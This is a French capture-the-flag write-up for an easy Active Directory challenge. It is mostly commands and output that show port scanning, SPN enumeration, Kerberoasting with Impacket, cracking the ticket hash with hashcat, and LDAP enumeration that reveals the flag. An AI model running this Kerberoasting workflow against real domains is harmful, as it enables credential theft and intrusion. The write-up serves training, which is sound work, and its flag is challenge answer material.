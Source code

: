 # The AD Guardians

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Facile  
**Author**: HF47

## Description du challenge

Dans les profondeurs du royaume Active Directory, une ancienne prophétie parle d'un artefact caché protégé par des gardiens invisibles. Seuls ceux qui maîtrisent l'art de la négociation des tickets pourront espérer découvrir le secret enfoui dans les méandres de l'annuaire.

## Solution

### 1. Reconnaissance initiale

Commençons par identifier les services disponibles sur le réseau :

```bash
hf47@kali> nmap -sV -p- 192.168.56.4
Nmap scan report for 192.168.56.4
Host is up (0.00056s latency).
Not shown: 986 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Microsoft Windows Server 2016 Essentials microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Nous remarquons la présence d'un serveur SQL (port 1433) et des services AD classiques (LDAP, Kerberos).

### 2. Énumération des comptes de service

Utilisons `ldapsearch` pour identifier les comptes de service avec des SPN configurés :

```bash
hf47@kali> ldapsearch -x -H ldap://192.168.56.4 -b "DC=ctfcorp,DC=local" "(servicePrincipalName=*)"
# sql_service, Users, ctfcorp.local
dn: CN=sql_service,CN=Users,DC=ctfcorp,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: sql_service
sAMAccountName: sql_service
servicePrincipalName: MSSQLSvc/dc1.ctfcorp.local:1433
```

Nous avons identifié un compte de service SQL avec un SPN configuré.

### 3. Kerberoasting

Utilisons `GetUserSPNs.py` d'Impacket pour extraire le ticket Kerberos :

```bash
hf47@kali> GetUserSPNs.py ctfcorp.local/<USERNAME>:<PASSWORD> -dc-ip 192.168.56.4 -request-user sql_service -outputfile hashes.kerberos
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name        MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  ----------  --------  --------------------------  ---------  ----------
MSSQLSvc/dc1.ctfcorp.local:1433  sql_service            2024-05-23 10:15:21.000             

$krb5tgs$23$*sql_service$CTFCORP.LOCAL$MSSQLSvc/dc1.ctfcorp.local:1433*$a7d4...[SNIP]
```

### 4. Cracking du hash

Sauvegardons le hash dans un fichier `hashes.kerberos` et utilisons hashcat avec `rockyou.txt` pour le cracker :

```bash
hf47@kali> hashcat -m 13100 hashes.kerberos /usr/share/wordlists/rockyou.txt
[...] 
$krb5tgs$23$*sql_service$CTFCORP.LOCAL$MSSQLSvc/dc1.ctfcorp.local:1433*:[SNIP]:fantastic
```

Le mot de passe du compte de service est : `fantastic`

### 5. Énumération avec le compte compromis

Maintenant que nous avons les credentials du compte de service, utilisons-les pour énumérer l'AD de manière méthodique :

```bash
# D'abord, listons toutes les OUs du domaine
hf47@kali> ldapsearch -x -H ldap://192.168.56.4 -D "sql_service@ctfcorp.local" -w "fantastic" -b "DC=ctfcorp,DC=local" "(objectClass=organizationalUnit)" dn

# Hidden_Services, ctfcorp.local
dn: OU=Hidden_Services,DC=ctfcorp,DC=local

# Users, ctfcorp.local
dn: CN=Users,DC=ctfcorp,DC=local

# Computers, ctfcorp.local
dn: CN=Computers,DC=ctfcorp,DC=local

# Domain Controllers, ctfcorp.local
dn: OU=Domain Controllers,DC=ctfcorp,DC=local

# Nous remarquons une OU nommée "Hidden_Services" qui semble intéressante
# Explorons son contenu
hf47@kali> ldapsearch -x -H ldap://192.168.56.4 -D "sql_service@ctfcorp.local" -w "fantastic" -b "OU=Hidden_Services,DC=ctfcorp,DC=local" "(objectClass=*)"

# Hidden_Services, ctfcorp.local
dn: OU=Hidden_Services,DC=ctfcorp,DC=local
objectClass: top
objectClass: organizationalUnit
ou: Hidden_Services

# 404CTF{K3rb3r04st1ng_1s_Th3_W4y}, Hidden_Services, ctfcorp.local
dn: CN=404CTF{K3rb3r04st1ng_1s_Th3_W4y},OU=Hidden_Services,DC=ctfcorp,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: 404CTF{K3rb3r04st1ng_1s_Th3_W4y}
```

Nous avons découvert une OU nommée "Hidden_Services" qui contient un compte utilisateur dont le nom correspond au format d'un flag CTF.

### 6. Flag

Le flag est le nom du compte caché : `404CTF{K3rb3r04st1ng_1s_Th3_W4y}`
